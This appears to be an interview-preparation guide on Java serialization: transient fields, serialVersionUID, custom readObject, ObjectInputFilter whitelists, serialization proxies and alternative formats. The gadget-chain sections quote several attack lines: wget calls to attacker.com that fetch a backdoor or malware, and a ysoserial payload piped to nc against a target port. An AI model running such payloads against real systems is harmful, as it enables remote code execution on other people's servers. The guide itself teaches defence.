

# Java Core - L4 Serialization

## Java Serialization Mechanisms and Security

### 🎯 Model Answer

**30 seconds:**
> Java serialization converts objects to a byte stream (`ObjectOutputStream`)
> and back (`ObjectInputStream`). `implements Serializable` opts in.
> `transient` fields are excluded. `serialVersionUID` controls version
> compatibility. Java serialization is DEPRECATED for cross-system use due
> to critical security vulnerabilities: deserialization of untrusted data
> enables remote code execution (gadget chains). Modern alternatives:
> JSON (Jackson), Protocol Buffers, Avro for cross-system; record-based
> copying for in-JVM. If you MUST use Java serialization: use
> `ObjectInputFilter` to whitelist allowed classes.

**3 minutes (Senior):**
> Serialization uses reflection to read/write all non-transient, non-static
> fields, including private. `readObject()`/`writeObject()` on the class
> are called if present (private - reflection bypass is intentional).
> `readResolve()` enables singleton preservation (return `INSTANCE`).
> `writeReplace()` enables serializing a proxy instead of the real object.
>
> The security crisis: Java serialization allows deserializing ANY class
> on the classpath (including commons-collections `InvokerTransformer`).
> Gadget chains use legitimate class `readObject()` implementations to
> chain method calls ending in `Runtime.exec()`. CVE-2015-4852, CVE-2017-3248,
> Log4Shell-adjacent. Java 9 introduced `ObjectInputFilter` (whitelist).
> Java 17: serialization filters can be set globally via system property.
>
> Modern Java serialization: `record` types are not Serializable by default.
> Alternative APIs: `java.io.Externalizable` gives full control but is verbose.
> `Kryo` is a faster, more compact binary serialization library. For persistence:
> JPA + SQL. For messaging: Protocol Buffers, Avro (schema evolution).

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Java serialization - let me cover the Serializable interface,
serialVersionUID, custom readObject/writeObject, the security vulnerabilities,
ObjectInputFilter, and modern alternatives."

**(2) First principles:** "Serialization converts object state to bytes for
transport or storage. The challenge: the byte stream must recreate the object
exactly, including private state not accessible through normal APIs - which
requires bypassing Java's access controls. This power creates security risk."

**(3) Bridge:** "Java serialization is like a photocopier that can duplicate
ANY document, including classified ones. The photocopy can be sent anywhere.
If a bad actor intercepts it and replaces it with a forged copy - the
photocopier will recreate the forged document as a real object."

---

### 📘 Concept Explanation

**Basic serialization:**
```java
// Implement Serializable to opt in:
class Person implements Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    private int age;
    transient private String password; // excluded from serialization
    static String species = "Homo sapiens"; // static: excluded (class state)
}

// Write:
try (ObjectOutputStream oos = new ObjectOutputStream(
        new FileOutputStream("person.ser"))) {
    oos.writeObject(person);
}

// Read:
try (ObjectInputStream ois = new ObjectInputStream(
        new FileInputStream("person.ser"))) {
    Person p = (Person) ois.readObject();
}
```

**serialVersionUID:**
```java
// If NOT declared: JVM computes based on class structure (fields, methods, etc.)
// Any change to the class (even adding a method) changes the UID
// -> InvalidClassException when reading old data with new class

// ALWAYS declare explicitly to control compatibility:
private static final long serialVersionUID = 1L;
// If you add a field without changing UID: old data deserialized with null/default
// If you remove a field: old data's field value is ignored
// If you change a field type: InvalidClassException unless UID also changed
```

**Custom serialization:**
```java
class SecureData implements Serializable {
    private static final long serialVersionUID = 1L;
    private byte[] encryptedData;
    transient private String plaintext; // don't serialize plaintext

    private void writeObject(ObjectOutputStream out) throws IOException {
        out.defaultWriteObject(); // writes encryptedData
        out.writeUTF(encrypt(plaintext)); // custom: write encrypted
    }

    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject(); // reads encryptedData
        this.plaintext = decrypt(in.readUTF()); // restore plaintext
    }

    // Singleton preservation:
    private Object readResolve() throws ObjectStreamException {
        return INSTANCE; // return canonical instance instead of deserialized one
    }
}
```

---

### 💻 Code Example

> **Code walkthrough:** The `ObjectInputFilter` whitelist is the mandatory
> security control for any code that deserializes Java objects from untrusted
> sources. Without it: any class on the classpath can be instantiated, enabling
> gadget chain attacks. The filter runs BEFORE `readObject()` on each class
> in the stream - it rejects the stream if the class is not whitelisted.

```java
// BAD: deserializing without filter (vulnerability!)
try (ObjectInputStream ois = new ObjectInputStream(untrustedInput)) {
    MyData data = (MyData) ois.readObject(); // UNSAFE!
    // Attacker controls untrustedInput bytes
    // Can encode ANY serializable class -> execute code via gadget chain
}

// GOOD: ObjectInputFilter whitelist (Java 9+)
ObjectInputFilter safeFilter = ObjectInputFilter.Config.createFilter(
    "com.myapp.*;java.util.ArrayList;java.util.HashMap;" +
    "java.lang.String;java.lang.Integer;maxdepth=5;maxbytes=65536"
);
// Pattern syntax: class patterns + limits
// maxdepth: prevent deeply nested object graphs (stack overflow attack)
// maxbytes: prevent billion-laughs style memory expansion

try (ObjectInputStream ois = new ObjectInputStream(trustedInput)) {
    ois.setObjectInputFilter(safeFilter);
    MyData data = (MyData) ois.readObject(); // safe: only whitelisted classes
}

// Global filter (Java 9+): JVM system property
// -Djdk.serialFilter=com.myapp.*;java.util.*;maxdepth=10
// Applied to ALL ObjectInputStream instances

// Programmatic global filter (Java 17+):
ObjectInputFilter.Config.setSerialFilter(
    info -> {
        Class<?> c = info.serialClass();
        if (c == null) return ObjectInputFilter.Status.UNDECIDED;
        String name = c.getName();
        if (name.startsWith("com.myapp.")) return ObjectInputFilter.Status.ALLOWED;
        if (name.startsWith("java.util.")) return ObjectInputFilter.Status.ALLOWED;
        if (name.startsWith("java.lang.")) return ObjectInputFilter.Status.ALLOWED;
        return ObjectInputFilter.Status.REJECTED;
    }
);

// Safe custom serialization with validation:
class Money implements Serializable {
    private static final long serialVersionUID = 1L;
    private final long cents; // immutable

    Money(long cents) {
        if (cents < 0) throw new IllegalArgumentException("negative money");
        this.cents = cents;
    }

    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        // Re-validate invariants after deserialization!
        if (cents < 0) throw new InvalidObjectException(
            "Deserialized negative money: " + cents);
    }
    // Without readObject validation: an attacker can craft a byte stream
    // with cents=-1 and bypass the constructor's validation check
}
```

> **Code walkthrough:** The `readObject()` re-validation pattern is critical.
> Constructor validation is bypassed during deserialization (the object is
> created via `ReflectionFactory.newInstance()` without calling the constructor).
> An attacker can craft a byte stream with any field values, bypassing all
> constructor checks. Re-validating in `readObject()` (or using `readResolve()`
> to return a factory-created instance) closes this attack vector. This is
> Item 88 in Effective Java: "Write readObject methods defensively."

---

### 🎓 Answers by Seniority

**Junior / Mid (0-5 years):**
> `implements Serializable` enables serialization. `serialVersionUID` prevents
> version mismatch exceptions. `transient` excludes fields. `private void
> readObject()` for custom deserialization logic. Don't use Java serialization
> for cross-service communication - use JSON or Protocol Buffers. If you must
> use it: add `ObjectInputFilter` whitelist.

---

**Senior / Staff (5+ years):**
> Java serialization should not be used for any new cross-system or
> long-term storage use case. The security risks (RCE via gadget chains)
> combined with fragility (any class change can break compatibility) make it
> unsuitable. Migration path: use Jackson for JSON (schema-flexible),
> Protocol Buffers for high-throughput (schema-strict), or Avro for
> Kafka integration (schema registry, evolution). For in-JVM use cases
> (session replication, distributed caches): Kryo or FST are faster and
> more compact. Existing code that uses Java serialization: audit all
> `ObjectInputStream` creation points, add `ObjectInputFilter`,
> consider migrating to JAXB/JSON if not already.

---

### ⚠️ Common Misconceptions

**Misconception 1: "`transient` protects sensitive data from serialization."**
`transient` excludes a field from the DEFAULT serialization. But if
`writeObject()` is overridden, it can still write transient fields manually.
More importantly: `transient` doesn't protect from memory inspection (heap
dumps expose all fields). For passwords: use `char[]`, zero after use,
and NEVER store in-memory longer than needed regardless of `transient`.

**Misconception 2: "Validation in constructors protects serialized objects."**
Deserialization bypasses constructors (`ReflectionFactory.newInstance()`).
A crafted byte stream sets field values directly, skipping all constructor
validation. Always implement `readObject()` with the same invariant checks
as the constructor. Without `readObject()` validation: ANY field value
(including invalid states) can be forced via a crafted byte stream.

---

### 🚨 Failure Modes and Diagnosis

**Failure: deserialization gadget chain - Remote Code Execution.**
```
Attack scenario:
  1. Attacker finds an endpoint that deserializes user-supplied Java bytes
     (REST endpoint accepting Content-Type: application/x-java-serialized-object,
      RMI endpoint, JMX port, Kubernetes API with serialized objects, etc.)

  2. Apache Commons Collections (on classpath) contains InvokerTransformer:
     class InvokerTransformer implements Transformer, Serializable {
         readObject() -> calls method.invoke() -> chains to next transformer
     }

  3. Gadget chain:
     BadAttributeValueExpException.readObject()
       -> PriorityQueue.toString()
         -> InvokerTransformer.transform()
           -> Runtime.getRuntime().exec("wget attacker.com/backdoor.sh")
     
  4. Attacker sends crafted bytes -> RCE without any authentication!

Diagnosis:
  - Unexpected OS processes spawned from JVM process
  - Network connections to unknown hosts
  - Files created in /tmp or system directories
  - Thread dumps show calls through java.util.PriorityQueue.toString()

Mitigation:
  1. URGENT: Add ObjectInputFilter (reject all non-expected classes)
  2. Remove vulnerable libraries (commons-collections 3.x -> upgrade to 4.x)
  3. Audit ALL endpoints that accept serialized data
  4. Use ysoserial to test: https://github.com/frohoff/ysoserial
     java -jar ysoserial.jar CommonsCollections1 'id' | nc target 1099
```

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| What makes a class serializable | 90 seconds |
| serialVersionUID purpose | 2 minutes |
| Transient and static fields | 2 minutes |
| readObject/writeObject | 2 minutes |
| Serialization security risks | 3 minutes |
| ObjectInputFilter | 2 minutes |
| Serialization and inheritance | 2 minutes |
| Externalizable vs Serializable | 2 minutes |
| readResolve and singleton | 2 minutes |
| Modern alternatives | 2-3 minutes |
| Gadget chains | 3 minutes |
| Protocol Buffers vs JSON vs Java serialization | 2-3 minutes |

---

**Q1 (What makes serializable): What makes a class serializable and
what are the requirements?**

A:
1. Must implement `java.io.Serializable` (marker interface, no methods)
2. All non-transient, non-static fields must be serializable (or transient)
3. `serialVersionUID` strongly recommended (auto-computed is fragile)
4. All classes in the inheritance hierarchy must be serializable OR have
   a no-arg constructor (for the non-serializable part)

```java
// Fully serializable:
class Point implements Serializable {
    private static final long serialVersionUID = 1L;
    private final double x, y; // both double - primitive, serializable
}

// Field is non-serializable - compile warning, runtime exception:
class Config implements Serializable {
    private Thread workerThread; // Thread is NOT Serializable!
    // -> NotSerializableException at runtime if workerThread is non-null
    // Fix: transient
    private transient Thread workerThread; // excluded from serialization
}

// Inheritance with non-serializable parent:
class Animal { // NOT Serializable
    private String species;
    Animal() { this.species = "unknown"; } // no-arg constructor required!
}
class Dog extends Animal implements Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    // On deserialize: Animal() is called (restores species="unknown")
    // Only Dog's fields (name) come from the stream
}
```

*What separates good from great:* The inheritance requirement is subtle.
When deserializing `Dog`, the JVM calls `Animal()`'s no-arg constructor
to initialize the non-Serializable parent state, then restores `Dog`'s
fields from the stream. If `Animal` doesn't have a no-arg constructor:
`InvalidClassException` at deserialization. This means: inheriting from
classes you don't control (third-party) and making them serializable
requires verifying their constructors. More importantly: `Animal`'s state
is NOT restored from the stream - it's reset to the constructor's default.
If the application requires `species` to be preserved: you need a custom
`writeObject()`/`readObject()` in `Dog` to manually save/restore `Animal`'s state.

---

**Q2 (serialVersionUID): Why is serialVersionUID important?**

A:
```java
// Without explicit UID: computed from class structure
// Any change to the class -> different UID -> InvalidClassException
// when reading old serialized data with the new class

// WITH explicit UID: you control compatibility
class User implements Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    private String email;
    // Adding a field with same UID = compatible (field is null/default in old data)
    private String phoneNumber; // safe to add, old data: phoneNumber=null
    // Removing a field with same UID = compatible (old data's value ignored)
    // Changing a field type: NOT compatible (will throw ClassCastException)
    // To signal incompatibility: change the UID to 2L
}

// Serial version mismatch error:
// java.io.InvalidClassException: User; local class incompatible:
//   stream classdesc serialVersionUID = 1234567890123456789,
//   local class serialVersionUID = 9876543210987654321
// -> Tells you exactly what changed: different UIDs

// Generating a consistent UID: serialver tool
// $ serialver com.example.User
// com.example.User: static final long serialVersionUID = 7309839278324XXX

// Best practice: always set to 1L for new classes, increment when
// making incompatible changes
```

*What separates good from great:* `serialVersionUID` is a versioning contract.
If you deploy a new version of a service that has sessions serialized to
Redis or a file, and the class changed without a UID increment: users get
`InvalidClassException` on session restore. The correct process: if changes
are backward-compatible (adding fields only), keep the same UID. If you're
breaking compatibility (changing types, removing required fields): increment
the UID, which forces the application to handle the "old data not deserializable"
case explicitly (redirect to re-authentication, etc.). Using `1L` for all classes:
works only if you control all serialized data and can do a full flush before
deploying incompatible changes.

---

**Q3 (Transient and static): What is the behavior of transient and static
fields during serialization?**

A:
```java
class Connection implements Serializable {
    private static final long serialVersionUID = 1L;

    // Static fields: NOT serialized (class state, not instance state)
    static int connectionCount = 0;

    // Transient fields: NOT serialized
    transient Socket socket; // runtime resource, can't serialize
    transient long lastActivityMs; // time-based, irrelevant after restore

    // Normal fields: serialized
    String host;
    int port;

    // After deserialization:
    // socket = null (transient) -> must reinitialize!
    // lastActivityMs = 0 (transient, default long)
    // host and port = restored from stream

    // Handle transient reinitialization:
    private Object readResolve() {
        // called after readObject; return new connected instance:
        return new Connection(host, port); // re-establish connection
    }
    // OR: lazy initialization in getSocket():
    Socket getSocket() {
        if (socket == null) socket = new Socket(host, port);
        return socket;
    }
}
```

*What separates good from great:* The transient field lifecycle question
is critical for distributed session replication. Session objects serialized
to Redis or Memcached: any resource (database connections, cached computed
values, locks) must be `transient`. The application must handle
null-transient-after-deserialize gracefully. Common pattern: `@Transient`
(JPA), or `transient` (Java) for all non-data fields. Post-deserialization
initialization: `readObject()` (for reading from stream + reinitializing) or
`readResolve()` (for post-deserialization factory replacement). Testing
that null transient fields don't cause NPE is a required unit test for
serializable session classes.

---

**Q4 (readObject/writeObject): How do custom readObject and writeObject work?**

A:
```java
class Version implements Serializable {
    private static final long serialVersionUID = 1L;
    private int major, minor, patch;

    private void writeObject(ObjectOutputStream out) throws IOException {
        // MUST call defaultWriteObject() or writeFields() first
        // (if you want the default fields written + custom extras)
        out.defaultWriteObject();
        // Write extra data:
        out.writeUTF(toVersionString()); // extra: "1.2.3"
    }

    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        String versionStr = in.readUTF();
        // Could use this to validate or migrate
        if (!versionStr.equals(toVersionString())) {
            throw new InvalidObjectException("Version mismatch: " + versionStr);
        }
    }

    // readObjectNoData(): called when no data for this class in stream
    // (e.g., reading data from before this class was added to hierarchy)
    private void readObjectNoData() throws ObjectStreamException {
        // Initialize to defaults:
        major = 1; minor = 0; patch = 0;
    }
}

// Serialization proxy pattern (Effective Java Item 90):
// Best approach: never serialize the real class, serialize a proxy
class Period implements Serializable {
    private final Date start;
    private final Date end;

    Period(Date start, Date end) {
        // validate invariants
    }

    // Proxy replaces Period in the stream:
    private Object writeReplace() { return new SerializationProxy(this); }

    // Prevent direct deserialization of Period:
    private void readObject(ObjectInputStream s) throws InvalidObjectException {
        throw new InvalidObjectException("Proxy required");
    }

    private static class SerializationProxy implements Serializable {
        private final Date start, end;
        SerializationProxy(Period p) { this.start = p.start; this.end = p.end; }
        private Object readResolve() {
            return new Period(start, end); // goes through the validated constructor!
        }
    }
}
```

*What separates good from great:* The serialization proxy pattern (Effective Java
Item 90) is the gold standard for secure, correct serialization. Instead of
the JVM bypassing constructors: `writeReplace()` saves a simple proxy object,
and `readResolve()` calls `new Period(start, end)` - the NORMAL constructor
with full validation. The `readObject()` that throws prevents anyone from
crafting a direct `Period` byte stream that bypasses validation. This pattern
also enables immutable classes (like `Period`) to be serializable without
security risks.

---

**Q5 (Serialization security risks): What are the security risks of Java serialization?**

A: **The root problem:** `ObjectInputStream.readObject()` will instantiate
ANY Serializable class on the classpath, calling `readObject()` on each.
This is called "Gadget chain exploitation":

```
Gadget chain (Commons Collections 3.x example):
  ObjectInputStream.readObject()
  -> PriorityQueue.readObject()
  -> PriorityQueue.heapifyDown()
  -> InvokerTransformer.compare()  (ChainedTransformer)
  -> InvokerTransformer.transform()
  -> Method.invoke(Runtime.getRuntime())
  -> Runtime.exec("malicious command")  <-- code execution!

Requirements for gadget chain:
  1. An "entry point" class: readObject() that calls a method
  2. One or more "gadget" classes: legitimate code that can be chained
  3. A "sink": a method that does something dangerous (exec, JNDI, etc.)

Vulnerable libraries (partial list):
  - Apache Commons Collections 3.1-3.2.1 (InvokerTransformer gadget)
  - Spring Framework (SpringPartiallyComparableBeanFactory)
  - Groovy (ConvertedClosure)
  - JDK 7u21 (PriorityQueue gadget - no external library needed!)

Attack surface in production:
  - Java RMI (port 1099) - designed for Java object serialization
  - HTTP endpoints accepting Content-Type: application/x-java-serialized-object
  - Memcached/Redis if storing serialized Java objects
  - JMX management ports
  - Many messaging systems that serialize message bodies as Java objects
```

*What separates good from great:* The Java deserialization vulnerability
disclosure in 2015 (by Chris Frohoff and Gabriel Lawrence) showed that
millions of Java applications were vulnerable because they trusted serialized
data from the network. Apache Commons Collections (ubiquitous in enterprise
Java) had gadget chains that required zero custom code. The JDK itself had
gadget chains in JDK 7. The lesson: the deserialization attack surface is
any code path that calls `ObjectInputStream.readObject()` on attacker-controlled
bytes - not just "obvious" deserialization endpoints. JNDI in Log4j2 enabled
Log4Shell via a related but different mechanism (class loading from remote).

---

**Q6 (ObjectInputFilter): How does ObjectInputFilter protect against gadget chains?**

A:
```java
// ObjectInputFilter runs BEFORE readObject() on each class in the stream
// If a class is REJECTED: InvalidClassException immediately
// The gadget chain is stopped before any code runs

// String-based filter (simpler, Java 9+):
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    // Whitelist: allowed class patterns
    "com.myapp.model.*;" +          // your domain objects
    "java.util.ArrayList;" +        // allowed collections
    "java.util.HashMap;" +
    "java.lang.String;" +
    "java.lang.Integer;" +
    "java.lang.Long;" +
    // Limits to prevent resource exhaustion:
    "maxdepth=10;" +                // max object graph depth
    "maxrefs=1000;" +               // max object references
    "maxbytes=100000"               // max stream size
    // Default for unmatched: REJECTED
    // "!*" would be explicit reject-all
);

// Functional filter (more control):
ObjectInputFilter customFilter = info -> {
    // Called for each class in the stream
    Class<?> c = info.serialClass();
    if (c == null) return ObjectInputFilter.Status.UNDECIDED; // structural info

    // Check against whitelist:
    if (ALLOWED_CLASSES.contains(c.getName())) {
        return ObjectInputFilter.Status.ALLOWED;
    }
    if (c.getName().startsWith("com.myapp.")) {
        return ObjectInputFilter.Status.ALLOWED;
    }
    // Log attempted class (for monitoring):
    log.warn("SERIALIZATION_BLOCKED: {}", c.getName());
    return ObjectInputFilter.Status.REJECTED;
};

// Apply to specific stream:
try (ObjectInputStream ois = new ObjectInputStream(input)) {
    ois.setObjectInputFilter(filter);
    MyData data = (MyData) ois.readObject();
}

// Global application filter (Java 17+):
// In main() or static initializer:
ObjectInputFilter.Config.setSerialFilter(filter);
// Applies to ALL ObjectInputStream instances that don't set their own filter
```

*What separates good from great:* `ObjectInputFilter` is necessary but not
sufficient. The whitelist must be maintained: every new domain class added
to serialization paths needs to be in the whitelist. Operational challenge:
at first implementation, you don't know all the classes in your streams
(libraries add their own serializable wrappers). Approach: start with
`ObjectInputFilter` in "log only" mode (always UNDECIDED, log class names),
run in staging, capture all class names, then switch to whitelist mode.
Java agent-based serialization monitoring (Contrast Security, JFrog Xray)
can automate this discovery. The `maxbytes` limit is crucial: billion-laughs-style
attacks (deeply nested object graphs that expand in memory) are prevented
by `maxrefs` and `maxdepth`.

---

**Q7 (Serialization and inheritance): How does serialization work with
class hierarchies?**

A:
```java
// Case 1: All Serializable
class Animal implements Serializable {
    private static final long serialVersionUID = 1L;
    String name;
}
class Dog extends Animal {
    private static final long serialVersionUID = 1L;
    String breed;
}
// Serialization: both name and breed written
// Deserialization: full restoration (both fields)

// Case 2: Non-Serializable parent
class Vehicle { // not Serializable
    int wheels = 4;
    Vehicle() {} // no-arg constructor REQUIRED
}
class Car extends Vehicle implements Serializable {
    private static final long serialVersionUID = 1L;
    String model;
}
// Serialization: only Car's fields (model) written; wheels NOT written
// Deserialization:
//   1. Vehicle() called (wheels = 4, constructor runs)
//   2. Car's fields (model) restored from stream
// wheels always = 4 after deserialization (even if it was 6 before serializing)

// Case 3: Serializable parent, non-Serializable child
class SerializableBase implements Serializable { String data; }
class NonSerializableChild extends SerializableBase {
    // NOT Serializable
    // Attempting to serialize instance: NotSerializableException
}

// Versioning with inheritance:
// Parent: serialVersionUID = 1L, has fields a, b
// Child:  serialVersionUID = 1L, has field c
// Upgrade parent to add field d (keep serialVersionUID = 1L):
// Old streams: d is null in parent, c from child stream
// OK for optional fields
```

*What separates good from great:* The non-Serializable parent with no-arg
constructor pattern is the classic Spring/JPA entity issue. JPA entities extend
`@MappedSuperclass` which is usually non-Serializable. If you want to serialize
a JPA entity (for distributed caching), the parent must have a no-arg constructor.
More importantly: serializing JPA entities directly is generally BAD PRACTICE
because lazy-loaded relationships cause `LazyInitializationException` outside
the persistence context, and entity graphs include the EntityManager reference
(transient, but still a complexity). Better pattern: serialize DTO equivalents
(plain Serializable records/POJOs with only the data you need).

---

**Q8 (Externalizable vs Serializable): When do you use Externalizable?**

A: `Externalizable` extends `Serializable` and requires implementing:
- `writeExternal(ObjectOutput out)` - writes all data manually
- `readExternal(ObjectInput in)` - reads all data manually

```java
// Externalizable: full manual control
class NetworkPacket implements Externalizable {
    private byte[] data;
    private int type;
    private long timestamp;

    // Required: no-arg constructor (called before readExternal)
    public NetworkPacket() {}

    @Override
    public void writeExternal(ObjectOutput out) throws IOException {
        out.writeInt(type);
        out.writeLong(timestamp);
        out.writeInt(data.length);
        out.write(data); // raw bytes, no object overhead
    }

    @Override
    public void readExternal(ObjectInput in)
            throws IOException, ClassNotFoundException {
        this.type = in.readInt();
        this.timestamp = in.readLong();
        int len = in.readInt();
        this.data = new byte[len];
        in.readFully(this.data);
    }
}
// Advantages: no reflection, no field metadata in stream, faster, compact
// Disadvantages: completely manual (error-prone), must handle versioning manually

// When to use Externalizable:
// 1. Performance: avoid reflection overhead
// 2. Compact format: control exactly what bytes are written
// 3. Custom encoding: compression, encryption built in
// 4. Versioning: explicit version field in writeExternal

// Most Java code: use Serializable (simpler, reflection handles fields)
// High-performance code (game state, network packets): Externalizable or Kryo
```

*What separates good from great:* In benchmarks, `Externalizable` is
approximately 3-5x faster than `Serializable` for complex objects (less
overhead per field: no field names in stream, no reflection). Libraries
like Kryo and FST take this further: they generate bytecode for serialization/
deserialization, achieving speeds 10-100x faster than Java serialization
for large object graphs. For production distributed caching (Hazelcast,
Ignite) or session replication: Kryo is the common choice. Spring Session
can use either Java serialization or Jackson for HTTP sessions.

---

**Q9 (readResolve and singleton): How does readResolve preserve singletons?**

A:
```java
// Problem: deserialization creates a NEW instance!
// Singleton pattern broken by serialization:
class ElvisPresley implements Serializable {
    static final ElvisPresley INSTANCE = new ElvisPresley();
    private ElvisPresley() {}
    // WITHOUT readResolve: readObject() creates a second instance!
}
ElvisPresley e1 = ElvisPresley.INSTANCE;
ByteArrayOutputStream baos = new ByteArrayOutputStream();
new ObjectOutputStream(baos).writeObject(e1);
ElvisPresley e2 = (ElvisPresley) new ObjectInputStream(
    new ByteArrayInputStream(baos.toByteArray())).readObject();
System.out.println(e1 == e2); // false! TWO INSTANCES of "singleton"!

// FIX: readResolve() replaces the deserialized instance:
class ElvisPresley implements Serializable {
    static final ElvisPresley INSTANCE = new ElvisPresley();
    private ElvisPresley() {}

    private Object readResolve() {
        return INSTANCE; // discard deserialized instance, return canonical
    }
    // All instance fields should be transient (deserialized state discarded)
}
// Now: e1 == e2 is true
// serialization/deserialization is identity-preserving

// Enum: automatically singleton-safe (JVM guarantees no extra instances):
enum Elvis {
    INSTANCE;
    // Java enum serialization: only the name is written; on deserialize,
    // Enum.valueOf() is called -> returns the existing JVM constant
}
Elvis e1 = Elvis.INSTANCE;
// After serialize/deserialize: still Elvis.INSTANCE (guaranteed)
// This is why Effective Java recommends Enum for singletons
```

*What separates good from great:* The Enum singleton recommendation from
Effective Java (Item 3) is backed by the JVM's enum serialization guarantee.
For all other singleton types: `readResolve()` is required for correctness.
But `readResolve()` has a subtle attack vector: a gadget that calls
`readObject()` on the real singleton class can still invoke its `readObject()`
method (if present) before `readResolve()` discards the instance. The
serialization proxy pattern completely avoids this: `writeReplace()` prevents
the real class from ever being serialized, and `readResolve()` in the proxy
constructs via the validated constructor. For any class where deserialized
state matters (not just singletons): serialization proxy > readResolve.

---

**Q10 (Modern alternatives): What are the modern alternatives to Java serialization?**

A:

| Format | Binary | Schema | Evolution | Language | Use When |
|---|---|---|---|---|---|
| Java Serialization | Yes | No | Fragile | Java only | Legacy only |
| JSON (Jackson) | No | Optional | Easy | Any | REST APIs, config |
| JSON (Gson) | No | No | Easy | Any | Simple cases |
| Protocol Buffers | Yes | Yes | Versioned | Any | High-throughput, gRPC |
| Avro | Yes | Yes (Registry) | Kafka evolution | Any | Kafka, Hadoop |
| MessagePack | Yes | No | Flexible | Any | Performance + JSON-compat |
| Kryo | Yes | No | Manual | JVM | In-JVM distributed cache |
| FST | Yes | No | Manual | JVM | Fast in-JVM cache |

```java
// Jackson (most common): JSON serialization
ObjectMapper mapper = new ObjectMapper();
mapper.registerModule(new JavaTimeModule()); // java.time support
// Serialize:
String json = mapper.writeValueAsString(user);
// Deserialize:
User user = mapper.readValue(json, User.class);
// With generic type:
List<User> users = mapper.readValue(json,
    mapper.getTypeFactory().constructCollectionType(List.class, User.class));

// Protocol Buffers: define .proto schema first
// user.proto:
// message User { string name = 1; int32 age = 2; }
// Generated Java:
User user = User.newBuilder().setName("Alice").setAge(30).build();
byte[] bytes = user.toByteArray(); // compact binary
User restored = User.parseFrom(bytes); // fast, type-safe

// Kryo (in-JVM distributed cache):
Kryo kryo = new Kryo();
kryo.register(User.class);
Output output = new Output(new FileOutputStream("file.bin"));
kryo.writeObject(output, user);
output.close();
Input input = new Input(new FileInputStream("file.bin"));
User restored = kryo.readObject(input, User.class);
```

*What separates good from great:* The serialization format choice is an
architectural decision with long-term consequences. JSON: human-readable,
widely tooled, larger than binary, but field renaming requires migration.
Protocol Buffers: field-by-number means rename-safe (field 1 is field 1
regardless of name), compact binary, requires .proto compilation, supports
schema evolution (add fields freely). Avro: schema stored in the message
or in a Schema Registry (Confluent), enables schema evolution in Kafka
without breaking consumers. For service-to-service communication: JSON is
the default but Protocol Buffers with gRPC outperforms by 5-10x. For Kafka:
Avro with Schema Registry is the production standard (enables schema
compatibility checks before consumers break).

---

**Q11 (Gadget chains): How do deserialization gadget chains work technically?**

A:
```
A gadget chain is a sequence of readObject() calls in legitimate classes
that, when triggered in a specific order, perform dangerous operations.

Example: PriorityQueue gadget (JDK, no external libraries needed!)

Step 1: PriorityQueue.readObject() is called
  - Reads elements from stream
  - Calls heapify() to restore the heap invariant
  - heapify() calls comparator.compare(element1, element2)

Step 2: If comparator is a specially crafted object (from stream):
  - comparator.compare() calls transform() on a ChainedTransformer
  - ChainedTransformer runs each sub-transformer in sequence

Step 3: InvokerTransformer.transform(input):
  - Uses reflection: method.invoke(input, args)
  - method = Runtime.class.getMethod("exec")
  - args = ["id"] or ["wget attacker.com/malware.sh -O /tmp/m"]

Result: JVM executes: Runtime.getRuntime().exec("wget ...")
```

```java
// Simplified gadget chain concept (DO NOT USE - educational only):
// Demonstrates how legitimate code becomes dangerous:

// Legitimate class:
class InvokerTransformer implements Transformer, Serializable {
    private String methodName;
    private Class<?>[] paramTypes;
    private Object[] args;

    public Object transform(Object input) { // called by PriorityQueue!
        // Legitimate use: invoke a method on the input
        Method m = input.getClass().getMethod(methodName, paramTypes);
        return m.invoke(input, args); // THIS executes the attack command
    }
}

// Attack bytecode encodes:
// new InvokerTransformer("exec", [String.class], ["malicious command"])
// inside a PriorityQueue

// Prevention:
// ObjectInputFilter that rejects InvokerTransformer, PriorityQueue
// when received from untrusted sources
```

*What separates good from great:* The ysoserial tool (https://github.com/frohoff/ysoserial)
is the reference for testing. It generates gadget chain payloads for
most major Java libraries. Security teams use it to test if their
endpoints are vulnerable before attackers do. The mitigations in order
of effectiveness: (1) Eliminate all `ObjectInputStream` on untrusted data
(replace with JSON/Protobuf) - the ONLY complete fix; (2) `ObjectInputFilter`
whitelist - stops all known gadget chains; (3) Upgrade vulnerable libraries
(Commons Collections 4.x is not vulnerable); (4) Java Security Manager
(deprecated in 17, removed in 21) - partial mitigation.

---

**Q12 (Protocol Buffers vs JSON vs Java serialization): Compare
serialization formats for production use.**

A:

| Criterion | Java Serialization | JSON (Jackson) | Protocol Buffers |
|---|---|---|---|
| Human-readable | No | Yes | No |
| Binary size | Large (field names + metadata) | Large (field names) | Small (field IDs) |
| Speed | Slow (reflection) | Medium | Fast (codegen) |
